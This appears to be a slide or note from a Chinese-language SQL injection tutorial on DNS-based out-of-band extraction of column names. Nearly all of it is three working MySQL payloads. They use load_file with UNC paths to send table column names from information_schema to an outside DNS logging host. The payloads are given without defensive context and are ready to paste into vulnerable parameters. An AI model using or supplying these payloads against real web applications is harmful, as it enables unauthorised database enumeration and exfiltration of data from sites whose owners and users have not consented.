

# dns注入列列名
列列名
and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+
and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' and TABLE_SCHEMA='dbname' limit 0,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+

第二个列名
and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='user' limit 1,1),'.7dluss.dnslog.cn\\abc'))),1,1)--+